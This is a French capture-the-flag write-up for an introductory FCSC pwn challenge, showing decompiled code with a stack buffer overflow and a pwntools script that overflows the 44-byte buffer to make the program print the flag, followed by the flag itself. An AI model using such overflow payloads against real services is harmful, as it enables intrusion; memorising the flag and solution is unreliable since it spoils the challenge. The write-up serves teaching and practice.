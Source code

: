 nc challenges.france-cybersecurity-challenge.fr 2100
</div>

### Solution 

Dans ce challenge d'intro pwn, on recupere le binaire vulnerable. En l'ouvrant avec ghidra et en lisant le code de la fonction main, on remarque tout de suite un buffer overflow.
```c

undefined8 main(void)

{
  undefined local_38 [44]; //buffer vulnerable !
  __uid_t local_c;
  
  local_c = geteuid();
  printf("username: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_0010200f,local_38);
  if (local_c == 0) {
    system("cat flag.txt");
  }
  else {
    system("cat flop.txt");
  }
  return 0;
}

```

On doit donc remplir les 44 octets du buffer puis inserer `\x00` afin de verifier `local_c == 0`. Pour cela, un petit script python suffit amplement.

```Python
from pwn import *
HOST, PORT = "challenges.france-cybersecurity-challenge.fr", 2100
io = remote(HOST, PORT)

payload = "A"*44+'\x00'
io.sendlineafter(b"username:", payload.encode())
io.interactive()
```

{{ spoiler(summary="flag", spoiler="FCSC{3ce9bedca72ad9c23b1714b5882ff5036958d525d668cadeb28742c0e2c56469}") }}

# Forensic

## Ransomémoire 0/3 - Pour commencer: 100pts ⭐
### Enonce
